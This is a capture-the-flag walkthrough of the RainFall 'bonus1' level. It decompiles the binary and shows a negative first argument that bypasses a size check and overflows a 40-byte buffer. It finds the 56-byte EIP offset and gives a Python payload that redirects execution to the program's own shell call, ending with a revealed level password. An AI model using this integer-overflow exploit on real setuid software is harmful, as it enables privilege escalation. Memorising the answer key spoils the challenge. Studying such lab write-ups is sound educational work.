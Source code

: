 Same as usual, we export the executable for decompilation:

```nasm
➜  ~ scp -P 4242 bonus1@0.0.0.0:/home/user/bonus1/bonus1 .
	  _____       _       ______    _ _ 
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
bonus1@0.0.0.0's password: 
bonus1                                        100% 5043     3.2MB/s   00:00
```

The decompiled version of the code:

```c
int main(int argc, char **argv)

{
  int ret_value;
  char buff [40];
  int x;
  
  x = atoi(*(char **)(argv[1]));
  if (x < 10) {
    memcpy(buff,*(void **)(argv[2]), x * 4);
    if (x == 0x574f4c46) {
      execl("/bin/sh","sh",0);
    }
    ret_value = 0;
  }
  else {
    ret_value = 1;
  }
  return ret_value;
}
```

We can see that it's not possible to set a specific value for x since it must be less than 10 to enter the first condition and equal to 1464814262 (0x574f4c46) to trigger the shell.

We also see that memcpy uses x * 4 as its size, which means that in normal usage of the code, we can only copy 9 * 4 = 36 characters, which is insufficient to overflow the buffer with a size of 40.

However, what happens if we add a negative value as the first argument, like -1?

```c
bonus1@RainFall:~$ ltrace ./bonus1 -1 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8c2, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = -1
memcpy(0xbffff6c4, "abcdefgh", 4294967292 <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

We can see that the size of memcpy is now set to 4294967292! This is the value of the maximum unsigned int on a 32-bit system.

Remember that memcpy has the following prototype:

```
void *memcpy(void *dest, const void *src, size_t n);
```

In this case, if we reverse the values of the size inside memcpy, we just need to take -4294967292 / 4 = -1073741823, since x is multiplied by 4 as an argument:

```c
bonus1@RainFall:~$ ltrace ./bonus1 -1073741823 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc0000001
memcpy(0xbffff6c4, "abcd", 4)                                 = 0xbffff6c4
+++ exited (status 0) +++
```

This time, we can see that the parameter size of memcpy is set to 4, which is equivalent to 1 * 4. So, to increase the size of memcpy, we just need to gradually subtract the value -1073741823.

`-1073741822` will result in a size of `8`

`-1073741821` will result in a size of `12`

etc... until exceeding the buffer size of 40.

We can see from ltrace that the segfault occurs starting from `-1073741809`:

```c
bonus1@RainFall:~$ ltrace ./bonus1 -1073741814 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc000000a
memcpy(0xbffff6c4, "abcdefgh", 40)                            = 0xbffff6c4
+++ exited (status 0) +++
bonus1@RainFall:~$ ltrace ./bonus1 -1073741813 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc000000b
memcpy(0xbffff6c4, "abcdefgh", 44)                            = 0xbffff6c4
+++ exited (status 0) +++
bonus1@RainFall:~$ ltrace ./bonus1 -1073741812 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc000000c
memcpy(0xbffff6c4, "abcdefgh", 48)                            = 0xbffff6c4
+++ exited (status 0) +++
bonus1@RainFall:~$ ltrace ./bonus1 -1073741811 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc000000d
memcpy(0xbffff6c4, "abcdefgh", 52)                            = 0xbffff6c4
+++ exited (status 0) +++
bonus1@RainFall:~$ ltrace ./bonus1 -1073741810 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc000000e
memcpy(0xbffff6c4, "abcdefgh", 56)                            = 0xbffff6c4
+++ exited (status 0) +++
bonus1@RainFall:~$ ltrace ./bonus1 -1073741809 abcdefgh
__libc_start_main(0x8048424, 3, 0xbffff794, 0x80484b0, 0x8048520 <unfinished ...>
atoi(0xbffff8b9, 0x8049764, 3, 0x80482fd, 0xb7fd13e4)         = 0xc000000f
memcpy(0xbffff6c4, "abcdefgh", 60)                            = 0xbffff6c4
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

So, we can deduce that EIP eventually gets rewritten after 56 characters.

Let's confirm this with gdb:

```c
Starting program: /home/user/bonus1/bonus1 -1073741809 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x39624138 in ?? ()
```

Indeed, the offset is set to 56.

Now that we know how to rewrite EIP, we need to know the address to which it should be redirected. There is no need to use a shellcode for this program since it already invokes /bin/sh. We just need to find the address of the instruction that triggers the execl bin/sh call.

We want to go to address `0x08048482`, which is the instruction for loading the shell:

```nasm
 8048482:	c7 44 24 08 00 00 00 	movl   $0x0,0x8(%esp) ; <----
 8048489:	00 
 804848a:	c7 44 24 04 80 85 04 	movl   $0x8048580,0x4(%esp)
 8048491:	08 
 8048492:	c7 04 24 83 85 04 08 	movl   $0x8048583,(%esp)
 8048499:	e8 b2 fe ff ff       	call   8048350 <execl@plt>
```

And here is the payload:

```nasm
bonus1@RainFall:~$ ./bonus1 -1073741809 $(python -c 'print "A" * 56 + "\x82\x84\x04\x08"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```